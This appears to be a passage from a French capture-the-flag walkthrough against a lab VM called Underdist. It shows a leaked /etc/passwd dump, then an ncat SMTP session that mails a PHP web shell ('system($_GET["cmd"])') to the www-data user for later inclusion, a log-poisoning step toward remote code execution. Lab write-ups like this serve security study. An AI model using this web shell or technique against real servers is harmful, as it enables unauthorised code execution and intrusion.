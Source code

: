 ```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:104::/var/spool/exim4:/bin/false
dovecot:x:102:106:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:103:65534:Dovecot login user,,,:/nonexistent:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
debian-spamd:x:105:107::/var/lib/spamassassin:/bin/sh
underdist:x:1000:1000:underdist,,,:/home/underdist:/bin/bash
postfix:x:106:109::/var/spool/postfix:/bin/false
cuervo:x:1001:1001:,,,:/home/cuervo:/bin/bash
smmta:x:107:111:Mail Transfer Agent,,,:/var/lib/sendmail:/bin/false
smmsp:x:108:112:Mail Submission Program,,,:/var/lib/sendmail:/bin/false
```

## You got mail

Le serveur web tournant certainement avec l'utilisateur `www-data`, je vais utiliser le port SMTP pour lui evoyer un email puis tenter de l'inclure :

```bash
$ ncat -v 192.168.56.87 25 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.87:25.
220 Underdist ESMTP Postfix (Debian/GNU)
HELO underdist
250 Underdist
MAIL FROM: zozo@hacker.com
250 2.1.0 Ok
RCPT TO: www-data
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
start<?php system($_GET["cmd"]); ?>end
.
250 2.0.0 Ok: queued as ED3309F
QUIT
221 2.0.0 Bye
```
